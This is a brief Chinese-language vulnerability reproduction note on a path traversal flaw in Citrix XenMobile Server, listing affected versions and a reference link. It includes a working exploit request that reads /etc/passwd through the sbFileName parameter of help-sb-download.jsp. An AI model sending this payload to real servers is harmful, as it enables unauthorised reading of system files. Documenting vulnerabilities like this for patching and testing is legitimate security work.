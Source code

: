 # 0x00 软件介绍
XenMobile：Citrix Endpoint Management（也称为XenMobile）用于管理员工的移动设备和移动应用程序。通常，由于Active Directory集成，它部署在网络外围并可以访问内部网络。这使XenMobile成为安全研究的主要目标。

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：无

# 0x02 环境搭建
无

# 0x03 利用条件
无

# 0x04 影响版本
Citrix XenMobile Server 10.12 before RP2  
Citrix XenMobile Server 10.11 before RP4  
Citrix XenMobile Server 10.10 before RP6  
Citrix XenMobile Server before 10.9 RP5

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

直接在ip后加如下路径
```
/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如
```
http://www.example.com/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如下图  
![image](./0.png)  
![image](./1.png)

# 0x06 踩坑记录
无

# 0x07 参考链接
https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server/
